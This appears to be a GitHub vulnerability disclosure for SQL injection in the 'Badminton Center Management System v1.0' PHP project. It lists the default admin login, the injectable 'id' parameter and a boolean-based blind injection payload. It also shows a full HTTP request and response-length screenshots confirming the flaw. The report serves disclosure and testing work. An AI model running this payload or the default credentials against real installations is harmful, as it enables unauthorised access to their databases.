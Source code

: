 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File: /bcms/admin/?page=service_transactions/view_details&id=

Vulnerability location: /bcms/admin/?page=service_transactions/view_details&id=, id

[+] Payload: /bcms/admin/?page=service_transactions/view_details&id=6%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /bcms/admin/?page=service_transactions/view_details&id=6%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 33357
![image](https://user-images.githubusercontent.com/54017627/170618051-688346a4-631d-48f6-87ca-7c690e9b17a1.png)

![image](https://user-images.githubusercontent.com/54017627/170618228-d5be8560-aea9-4f04-a972-86142b37d0fd.png)

When length (database ()) = 7, Content-Length: 31064

![image](https://user-images.githubusercontent.com/54017627/170618020-4fb96083-7d2c-4a11-a5e0-a77c378f9f99.png)

![image](https://user-images.githubusercontent.com/54017627/170618113-8b9f0587-e283-4c54-afc2-53b8943e17c8.png)
